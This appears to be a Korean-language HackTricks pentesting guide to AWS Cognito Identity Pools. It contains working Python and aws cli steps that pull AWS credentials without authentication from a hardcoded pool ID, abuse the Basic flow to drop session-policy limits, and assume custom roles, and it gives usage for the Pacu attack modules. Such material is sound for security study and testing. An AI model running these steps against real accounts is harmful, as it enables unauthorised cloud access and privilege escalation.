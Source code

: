 # Cognito Identity Pools

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

Identity pools는 사용자가 **임시 자격 증명**을 획득할 수 있도록 하여 중요한 역할을 합니다. 이러한 자격 증명은 Amazon S3 및 DynamoDB를 포함한 다양한 AWS 서비스에 접근하는 데 필수적입니다. Identity pools의 주목할 만한 기능은 익명 게스트 사용자와 사용자 인증을 위한 다양한 신원 제공자를 지원한다는 점입니다. 지원되는 신원 제공자는 다음과 같습니다:

- Amazon Cognito user pools
- Facebook, Google, Login with Amazon, Sign in with Apple과 같은 소셜 로그인 옵션
- OpenID Connect (OIDC) 호환 제공자
- SAML (Security Assertion Markup Language) 신원 제공자
- 개발자 인증 신원
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

Identity Pool 세션을 생성하려면 먼저 **Identity ID를 생성해야** 합니다. 이 Identity ID는 **해당 사용자의 세션 식별자**입니다. 이러한 식별자는 최대 20개의 데이터 세트를 가질 수 있으며, 각 데이터 세트는 최대 1MB의 키-값 쌍을 저장할 수 있습니다.

이는 **사용자의 정보를 유지하는 데 유용합니다** (항상 동일한 Identity ID를 사용하는 사용자).

또한, 서비스 **cognito-sync**는 **이 정보를 관리하고 동기화하는** 서비스를 제공합니다 (데이터 세트에서, 스트림 및 SNS 메시지로 정보를 전송하는 등).

### Tools for pentesting

- [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS 취약점 탐지 프레임워크로, 이제 "cognito\_\_enum" 및 "cognito\_\_attack" 모듈이 포함되어 있어 계정의 모든 Cognito 자산을 자동으로 열거하고 약한 구성, 접근 제어에 사용되는 사용자 속성 등을 플래그하며, 사용자 생성(여기에는 MFA 지원 포함) 및 수정 가능한 사용자 정의 속성, 사용 가능한 Identity Pool 자격 증명, ID 토큰에서 가정 가능한 역할 등을 기반으로 한 권한 상승을 자동화합니다.

모듈 기능에 대한 설명은 [블로그 게시물](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) 2부를 참조하십시오. 설치 지침은 주요 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 페이지를 참조하십시오.

#### Usage

샘플 cognito\_\_attack 사용법으로 주어진 Identity Pool 및 사용자 풀 클라이언트에 대해 사용자 생성 및 모든 권한 상승 벡터를 시도합니다:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
샘플 cognito\_\_enum 사용법으로 현재 AWS 계정에서 볼 수 있는 모든 사용자 풀, 사용자 풀 클라이언트, 아이덴티티 풀, 사용자 등을 수집합니다:
```bash
Pacu (new:test) > run cognito__enum
```
- [Cognito Scanner](https://github.com/padok-team/cognito-scanner)는 원치 않는 계정 생성 및 아이덴티티 풀 상승을 포함하여 Cognito에 대한 다양한 공격을 구현하는 파이썬 CLI 도구입니다.

#### Installation
```bash
$ pip install cognito-scanner
```
#### 사용법
```bash
$ cognito-scanner --help
```
더 많은 정보는 https://github.com/padok-team/cognito-scanner 를 확인하세요.

## IAM 역할 접근

### 인증되지 않음

공격자가 인증되지 않은 사용자로서 Cognito 앱에서 **AWS 자격 증명**을 얻기 위해 알아야 할 유일한 것은 **Identity Pool ID**이며, 이 **ID는 웹/모바일** **애플리케이션**에 하드코딩되어 있어야 사용될 수 있습니다. ID는 다음과 같이 보입니다: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (무작위 대입 공격이 불가능합니다).

> [!TIP]
> 기본적으로 **IAM Cognito 인증되지 않은 역할은** `Cognito_<Identity Pool name>Unauth_Role`로 호출됩니다.

하드코딩된 Identity Pools ID를 찾고 인증되지 않은 사용자를 허용하는 경우, 다음을 사용하여 AWS 자격 증명을 얻을 수 있습니다:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
다음 **aws cli 명령어**를 사용할 수도 있습니다:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
> [!WARNING]
> 기본적으로 인증되지 않은 cognito **사용자는 정책을 통해 할당되었더라도 권한을 가질 수 없습니다**. 다음 섹션을 확인하세요.

### Enhanced vs Basic Authentication flow

이전 섹션은 **기본 향상된 인증 흐름**을 따랐습니다. 이 흐름은 생성된 IAM 역할 세션에 **제한적인** [**세션 정책**](../../aws-basic-information/index.html#session-policies)을 설정합니다. 이 정책은 세션이 [**이 목록의 서비스만 사용할 수 있도록**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) 허용합니다 (역할이 다른 서비스에 접근할 수 있었더라도).

그러나 **Identity pool에 "Basic (Classic) Flow"가 활성화되어 있으면**, 사용자는 해당 흐름을 사용하여 **제한적인 세션 정책이 없는** 세션을 얻을 수 있습니다.
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
> [!WARNING]
> 이 **오류**가 발생하는 경우, **기본 흐름이 활성화되지 않았기 때문입니다 (기본값)**

> `An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`

IAM 자격 증명이 있는 경우 [어떤 접근 권한이 있는지 확인하고](../../index.html#whoami) [권한 상승을 시도하세요](../../aws-privilege-escalation/index.html).

### 인증된 사용자

> [!NOTE]
> **인증된 사용자**는 아마도 **다른 권한**이 부여될 것이므로, **앱 내에서 가입할 수 있다면**, 그렇게 시도하여 새로운 자격 증명을 얻으세요.

**Identity Pool**에 접근하는 **인증된 사용자**를 위한 **역할**도 있을 수 있습니다.

이를 위해 **아이덴티티 제공자**에 접근해야 할 수 있습니다. 만약 그것이 **Cognito User Pool**이라면, 기본 동작을 악용하여 **직접 새로운 사용자를 생성할 수 있을지도 모릅니다**.

> [!TIP]
> **IAM Cognito 인증 역할은 기본적으로** `Cognito_<Identity Pool name>Auth_Role`로 생성됩니다.

어쨌든, **다음 예제**는 **Identity Pool**에 접근하기 위해 사용되는 **Cognito User Pool**에 이미 로그인했다고 가정합니다 (다른 유형의 아이덴티티 제공자도 구성될 수 있다는 점을 잊지 마세요).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id <identity_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# 이전 명령 응답에서 identity_id를 가져옵니다
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>


# IdToken에서 사용자가 User Pool 그룹으로 접근할 수 있는 역할을 찾을 수 있습니다
# --custom-role-arn을 사용하여 특정 역할에 대한 자격 증명을 가져옵니다
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
<strong>    --custom-role-arn <role_arn> \
</strong>    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
</code></pre>

> [!WARNING]
> 사용자가 로그인하는 아이덴티티 제공자에 따라 **다른 IAM 역할을 구성할 수 있으며**, 심지어 **사용자**에 따라 (클레임을 사용하여) 다를 수 있습니다. 따라서 동일한 또는 다른 제공자를 통해 다양한 사용자에 접근할 수 있다면, **모든 사용자의 IAM 역할에 로그인하고 접근하는 것이 가치가 있을 수 있습니다**.

{{#include ../../../../banners/hacktricks-training.md}}
